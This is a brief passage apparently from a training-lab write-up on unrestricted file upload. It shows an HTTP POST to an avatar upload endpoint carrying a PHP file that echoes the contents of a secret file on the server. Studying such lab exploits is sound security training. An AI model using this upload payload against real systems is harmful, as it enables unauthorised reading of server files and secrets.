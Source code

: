There is a function to upload a logo, it is possible to upload a PHP file to
show the content of the file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/avatar HTTP/2
...
-----------------------------372082654728426116931381616293
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------372082654728426116931381616293
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/6d91263b2e709e815318f56d45869092.png)
